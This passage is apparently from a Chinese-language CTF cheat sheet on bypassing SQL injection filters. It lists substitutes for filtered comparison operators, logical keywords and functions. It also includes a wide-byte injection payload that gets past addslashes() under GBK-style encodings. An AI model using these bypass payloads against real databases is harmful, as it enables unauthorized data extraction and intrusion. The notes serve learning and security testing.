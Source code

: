 `select 1,2`

`select * from (select 1)a join (select 2)b`

1. `like/rlike`

`select ascii(mid(user(),1,1))=80`

`select user() like 'r%'`

1. `offset`

`select * from news limit 0,1`

`select * from news limit 1 offset 0`

### 比较符号 `(<=>)` 被过滤

1. `=` 用 `like, rlike, regexp` 代替

`select * from users where name like 'Liki4'`

`select * from users where name rlike 'Liki4'`

`select * from users where name regexp 'Liki4'`

1. `<>` 用 `greatest()、least()`

`select * from users where id=1 and ascii(substr(database(),0,1))>64`

`select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64`

1. `between`

`select * from users where id between 1 and 1;`

### `or and xor not` 被过滤

1. `and = &&`
2. `or = ||`
3. `xor = |`
4. `not = !`

### 常用函数被过滤

1. `hex()、bin() = ascii()`
2. `sleep() = benchmark()`
3. `concat_ws() = group_concat()`
4. `mid()、substr() = substring()`
5. `@@user = user()`
6. `@@datadir = datadir()`

### 宽字节注入

在 GB2312、GBK、GB18030、BIG5、Shift_JIS 等编码下来吃掉 ASCII 字符的方法，可以用来绕过 `addslashes()`
`id=0%df%27%20union%20select%201,2,database();`

![](static/boxcnaRtyUGC0sX3btnFIgpDCob.png)
